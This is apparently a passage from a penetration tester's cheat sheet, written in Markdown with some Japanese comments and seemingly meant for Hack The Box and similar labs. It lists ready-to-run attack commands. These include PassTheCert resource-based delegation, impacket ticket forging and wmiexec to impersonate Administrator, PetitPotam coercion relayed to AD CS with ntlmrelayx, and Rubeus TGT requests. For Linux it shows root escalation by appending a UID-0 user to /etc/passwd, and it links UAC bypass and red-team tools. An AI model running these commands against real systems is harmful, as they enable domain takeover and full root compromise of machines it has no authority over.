 ```powershell
Get-DomainComputer <Computer Name>
.\PassTheCert.exe --server <server-ip or fqdn> --cert-path <pfx-path> --rbcd --target <CN=DC,OU=Domain Controllers,DC=example,DC=com> --sid <Resource-SID>

impacket-getST -spn 'cifs/authority.authority.htb' -impersonate Administrator 'authority.htb/DESKTOP-1337$:99U1VOMhRX6LEvISJJQ9PMo07osUJLcp'
impacket-wmiexec -k -no-pass authority.htb/Administrator@authority.authority.htb
```
#### PetitPotam
https://github.com/topotam/PetitPotam<br/>
https://github.com/ly4k/PetitPotam<br/>

https://github.com/dirkjanm/PKINITtools
```bash
# listener
sudo ntlmrelayx.py -debug -smb2support --target http://target.htb.local/certsrv/certfnsh.asp --adcs --template DomainController
# 強制認証
python3 PetitPotam.py kaliIP targetIP -u user -p password -d domain

# TGT request
.\Rubeus.exe asktgt /user:Administrator /certificate:[Base64_Cert] /getcredentials /password:
```

### UAC bypass
https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC

### Group
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges

### Other Tools
https://github.com/expl0itabl3/Toolies<br/>
https://github.com/dxnboy/redteam

## Linux
### SUGGEST
```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh 
```
###  /etc/passwd
```bash
joe@debian-privesc:~$ openssl passwd w00t
joe@debian-privesc:~$ openssl passwd -1 w00t
Fdzt.eqJQ4s0g
joe@debian-privesc:~$ echo 'root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash' >> /etc/passwd
```
